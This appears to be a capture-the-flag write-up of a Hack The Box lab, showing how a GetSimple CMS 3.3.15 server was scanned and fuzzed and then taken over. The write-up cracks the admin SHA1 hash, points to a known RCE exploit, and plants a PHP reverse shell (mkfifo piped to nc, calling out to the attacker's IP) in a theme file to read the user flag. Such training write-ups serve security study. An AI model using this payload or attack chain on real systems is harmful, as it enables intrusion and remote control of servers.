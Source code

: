 ```yaml
---


---
```


<h1 id="knowledge-check-walktrough">Knowledge Check Walktrough</h1>
<p>Write up of the Getting Started HTB modules</p>
<h2 id="scanning-the-target">Scanning the target</h2>
<p>Enumeration/Scanning with <code>Nmap</code> - perform a quick scan for open ports followed by a full port scan:</p>
<pre><code>nmap -sV -sC -p- 10.129.176.153

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/admin/
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code></pre>
<p>Analysing the web server:</p>
<pre><code>whatweb 10.129.176.153
http://10.129.176.153 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.176.153], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]
</code></pre>
<p>Directory fuzzing:</p>
<pre><code>ffuf -w directory-list-2.3-small.txt:FUZZ -u http://10.129.176.153:80/FUZZ
</code></pre>
<p><a href="http://10.129.176.153/data/">http://10.129.176.153/data/</a><br>
<a href="http://10.129.176.153/backups/">http://10.129.176.153/backups/</a><br>
<a href="http://10.129.176.153/theme/">http://10.129.176.153/theme/</a><br>
<a href="http://10.129.176.153/plugins/">http://10.129.176.153/plugins/</a><br>
<a href="http://10.129.176.153/admin/">http://10.129.176.153/admin/</a></p>
<p>so this web site is working with a cms called “get simple”<br>
lest try to investigate the version of this cms because there is a lot of exploit but we need to find the version</p>
<pre><code>http://10.129.26.161/data/cache/2a4c6447379fba09620ba05582eb61af.txt
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
</code></pre>
<p>we found the version here.<br>
lest find exploit related:</p>
<pre><code> searchsploit getsimple CMS 3.3.15
</code></pre>
<p>No result<br>
but for the latest version there is an exploit :</p>
<pre><code>GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                   | php/webapps/51475.py
</code></pre>
<p>when we analyse the python code of the exploit, we see this exploit is working for the 3.3.15 versions</p>
<pre><code>if version &lt;= "3.3.16":
	print( red + f"[+] the version {version} is vulnrable to CVE-2022-41544")
</code></pre>
<p>in data/users/admin.xml there is:</p>
<pre><code>&lt;item&gt;&lt;USR&gt;admin&lt;/USR&gt;&lt;NAME/&gt;&lt;PWD&gt;d033e22ae348aeb5660fc2140aec35850c4da997&lt;/PWD&gt;&lt;EMAIL&gt;admin@gettingstarted.com&lt;/EMAIL&gt;&lt;HTMLEDITOR&gt;1&lt;/HTMLEDITOR&gt;&lt;TIMEZONE/&gt;&lt;LANG&gt;en_US&lt;/LANG&gt;
</code></pre>
<p>username = admin<br>
the password seems encrypted in sha1<br>
d033e22ae348aeb5660fc2140aec35850c4da997<br>
decrypted = admin</p>
<p>we try to connect and we got access to the admin pannel.</p>
<p>there is an api key here:</p>
<p><a href="http://10.129.26.161/data/other/authorization.xml">http://10.129.26.161/data/other/authorization.xml</a></p>
<pre><code>&lt;item&gt;&lt;apikey&gt;&lt;![CDATA[4f399dc72ff8e619e327800f851e9986]]&gt;&lt;/apikey&gt;&lt;/item&gt;
</code></pre>
<p>usefull if we use the exploit or we cant decrypt the password but for the moment we continue manualy</p>
<p>in the theme editor menue we can edit php theme files<br>
<a href="http://10.129.26.161/admin/theme-edit.php">http://10.129.26.161/admin/theme-edit.php</a><br>
so we can inject a reverse shell php code like this:</p>
<pre><code>&lt;?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 10.10.14.176 9443 &gt;/tmp/f"); ?&gt;
</code></pre>
<p>and click on save</p>
<p>start an netcat listener on port 9443</p>
<pre><code>nc -lvnp 9443
listening on [any] 9443 ...
</code></pre>
<p>activate the reverse shell code</p>
<pre><code> curl http://10.129.26.161:80/theme/Innovation/template.php
</code></pre>
<p>connected:</p>
<pre><code>connect to [10.10.14.176] from (UNKNOWN) [10.129.26.161] 42302
/bin/sh: 0: can't access tty; job control turned off
$
$ cd home
$ ls
mrb3n
$ cd mrb3n
$ ls
user.txt
$ cat user.txt
7002d65b149b0a4d19132a66feed21d8
</code></pre>

